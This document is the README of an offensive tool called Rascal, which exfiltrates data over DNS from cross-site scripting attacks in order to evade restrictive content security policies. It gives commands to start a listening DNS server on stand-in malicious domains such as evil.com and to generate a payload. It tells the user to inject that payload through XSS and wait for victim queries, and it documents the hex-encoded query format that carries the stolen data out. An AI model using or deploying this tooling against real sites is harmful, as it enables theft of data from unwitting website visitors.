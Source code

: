 # Rascal

Rascal is a DNS exfiltration group of tools specificaly designed for XSS attacks, specially when restrictive CSP policies are found. 

## Install

First set up a SQlite db

```bash
sqlite3 rascal.db < init.sql
pip install -r requeriments.txt
```

## Usage
Start the server
```bash
python bribon.py --db /usr/local/bribon/bribon.db --domain evil.local -i "*.evil.com IN A 10.22.3.55" --logger bribonlogger
```

Where:

-  `--domain <domain>`: quieries within this domain will be parsed and recorded

-  `-i "<zone register>"`

-  `--logger <logger class>`: dynamically loaded class to log messages.

Generate a payload
```bash
python rascal.py --code --domain <domain> 
```

Inject the payload within a XSS and wait until you have receive queries from victim. 


## Exfiltration details

Query format is the following one:
`<hex data>.<part>.<session>.<domain>`

Where:
- *hex data*: data codified in hexadecimal
- *part*: sequence ID of the whole data exfiltred. Data could be splitted in several parts that will be sent independently from the victim. This indicator allows the program to concat the data in order.
- *session*: this is a random generated string unique for each XSS execution. Allow to group all parts of a same session. Additionally, there is a custom label concatenated to the session sstring that allow to filter easily by tags different attacks tests.
- *domain*: your malicious domain where the query will be sent.


